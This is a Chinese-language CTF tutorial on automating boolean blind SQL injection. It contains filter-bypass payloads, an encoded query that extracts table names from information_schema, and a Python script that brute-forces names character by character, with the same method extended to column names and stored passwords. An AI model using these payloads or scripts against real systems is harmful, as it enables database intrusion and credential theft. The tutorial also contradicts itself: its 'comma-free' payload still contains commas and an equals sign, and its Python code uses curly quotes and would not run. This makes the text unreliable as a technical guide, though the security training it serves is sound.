# CTF教程：09-2-8：布尔盲注CTF题目解决 🔍



在本节课中，我们将学习如何利用Python脚本自动化解决布尔盲注类型的CTF题目。布尔盲注是一种SQL注入技术，其特点是无法直接看到数据库的查询结果，只能通过页面返回的“真”（如success）或“假”（如fail）状态来推断信息。手动进行这种推断非常耗时，因此我们将学习如何编写脚本来自动化这个过程。

## 概述
本节课的核心是掌握布尔盲注的自动化利用流程。我们将从确定注入点开始，逐步构造绕过过滤的Payload，最终编写Python脚本来自动化地获取数据库中的信息（如表名、字段名和数据）。

---


## 确定注入点与绕过过滤 🎯

上一节我们介绍了布尔盲注的基本概念。本节中，我们来看看如何在实际题目中确定注入点并绕过常见的过滤规则。

首先，我们需要找到存在SQL注入漏洞的参数。通常，我们会使用 `AND 1=1` 和 `AND 1=2` 来测试。但如果Web应用程序过滤了 `AND` 关键字，我们就需要使用替代方法。




在MySQL中，可以使用双 `&` 符号（即 `&&`）来替代 `AND`。然而，在URL中，`&` 符号有特殊含义，因此我们需要对其进行URL编码。`&` 的URL编码是 `%26`。

以下是测试步骤：
1.  构造Payload：`id=1 %26%26 1`（表示真条件）。
2.  构造Payload：`id=1 %26%26 0`（表示假条件）。
3.  观察页面返回。如果两个Payload返回了不同的结果（例如一个为“success”，一个为“fail”），则证明该参数存在布尔盲注漏洞，并且我们成功绕过了对 `AND` 的过滤。

**注意**：在实际测试中，可能还需要绕过对空格、等号（`=`）、逗号（`,`）以及特定函数（如 `substr`, `ord`）的过滤。常见的绕过方法包括：
*   **空格**：使用注释 `/**/`。
*   **等号（`=`）**：使用 `IN()` 或 `LIKE`。
*   **逗号（`,`）**：在 `LIMIT` 子句中使用 `OFFSET`，在 `MID` 函数中使用 `FROM ... FOR ...` 的格式。
*   **函数**：用 `MID` 替代 `SUBSTR`，用 `ASCII` 替代 `ORD`。

---


## 构造核心注入Payload 🛠️


在确认注入点并找到绕过方法后，我们需要构造出最核心的SQL注入Payload。这个Payload将作为我们脚本的基础。







假设我们需要获取当前数据库的第一个表名，其核心思路是逐字符进行猜测和比较。

原始的SQL查询逻辑如下：
```sql
SELECT * FROM users WHERE id = -1 || (ASCII(MID((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1),1,1)) = 97)
```
这个语句的意思是：如果当前数据库第一个表名的第一个字符的ASCII码等于97（即字母‘a’），则整个条件为真，页面返回“真”状态。



根据我们之前提到的过滤规则，需要对其进行改造：
*   将 `||` 替换为 `%26%26`（URL编码后的 `&&`）。
*   将 `SUBSTR` 替换为 `MID`。
*   使用 `MID((SELECT ...), 1, 1)` 格式避免逗号。
*   使用 `LIMIT 0 OFFSET 0` 格式避免逗号。
*   将等号（`=`）替换为 `IN()`。
*   将空格替换为 `/**/`。



改造后的Payload示例（已URL编码）：
```
id=-1%26%26(ASCII(MID((SELECT/**/table_name/**/FROM/**/information_schema.tables/**/WHERE/**/table_schema=DATABASE()/**/LIMIT/**/0/**/OFFSET/**/0),1,1))IN(97))
```
将这个Payload发送到目标URL，如果返回“真”状态，则说明第一个字符是‘a’。

---

## 编写Python自动化脚本 🤖

上一节我们成功构造了用于猜解单个字符的Payload。本节中，我们将利用这个Payload，编写Python脚本来自动化地猜解出完整的数据库信息。

脚本的核心逻辑是循环遍历所有可能的位置（如第几个表、第几个字段、第几个字符）和所有可能的字符（如字母、数字），然后根据页面的返回状态来判断是否正确。

以下是编写脚本的关键步骤：

**第一步：定义字符集和目标URL**
我们需要定义一个包含所有可能字符的字符串（如小写字母、数字）。
```python
chars = “abcdefghijklmnopqrstuvwxyz0123456789”
url = “http://target.com/vuln_page.php”
```

**第二步：获取表名**
以下是获取前两个表名的代码逻辑概述。
1.  外层循环：遍历表（例如 `for table_index in range(0,2):`）。
2.  内层循环1：假设表名长度不超过50，遍历每个字符位置（`for position in range(1, 50):`）。
3.  内层循环2：在每个位置上，遍历字符集进行猜测（`for char in chars:`）。
4.  构造Payload：将上一步构造的核心Payload中的 `OFFSET` 值替换为 `table_index`，将 `MID` 函数中字符的位置参数替换为 `position`，将猜测的值 `IN(97)` 替换为 `IN(ord(char))`。
5.  发送请求并检查响应长度或内容：如果响应特征与“真”状态匹配（例如响应长度是1764），则说明该字符正确，将其追加到当前表名中，并跳出内层循环2，继续猜下一个位置。

**代码结构示例**：
```python
import requests



def get_table_name():
    tables = []
    for offset in range(0, 2): # 获取前两个表
        table_name = “”
        for i in range(1, 50): # 假设表名长度小于50
            found_char = None
            for char in chars:
                # 动态构造Payload，替换 offset 和 字符位置 i
                payload = f“-1%26%26(ASCII(MID((SELECT/**/table_name/**/FROM/**/information_schema.tables/**/WHERE/**/table_schema=DATABASE()/**/LIMIT/**/0/**/OFFSET/**/{offset}),{i},1))IN({ord(char)}))”
                full_url = f“{url}?id={payload}”
                resp = requests.get(full_url)
                if len(resp.content) == 1764: # “真”状态的响应长度
                    found_char = char
                    break
            if found_char:
                table_name += found_char
            else:
                # 如果某个位置没有匹配字符，可能已到表名末尾
                break
        if table_name:
            tables.append(table_name)
        print(f“找到表名: {table_name}”)
    return tables
```



**第三步：获取字段名**
获取到表名（例如 `admin`）后，我们可以用类似的逻辑获取该表内的字段名。只需修改SQL查询语句，从 `information_schema.columns` 中查询指定表名的字段。





**第四步：获取数据**
最后，我们可以用同样的逐字符猜解方法，从指定的表和字段中提取数据（如用户名和密码）。



---

## 总结







本节课中我们一起学习了布尔盲注CTF题目的自动化解决方法。我们首先学习了如何确定注入点并绕过常见的SQL关键字过滤。然后，我们掌握了构造核心布尔盲注Payload的技巧，包括使用 `%26%26`、`MID`、`IN()` 和 `/**/` 等绕过手段。最后，我们通过编写Python脚本，将繁琐的逐字符猜解过程自动化，从而高效地获取数据库的表名、字段名和具体数据。



关键点总结：
1.  **原理**：布尔盲注依赖于页面对不同布尔条件返回的不同状态。
2.  **绕过**：灵活运用URL编码、函数替代、语法变形来绕过过滤。
3.  **自动化**：通过Python脚本循环猜测，大幅提升效率。
4.  **流程**：确定注入点 -> 构造基础Payload -> 编写脚本获取信息（表名->字段名->数据）。





通过本章节的学习，你应该能够理解布尔盲注的原理，并具备编写自动化利用脚本的能力。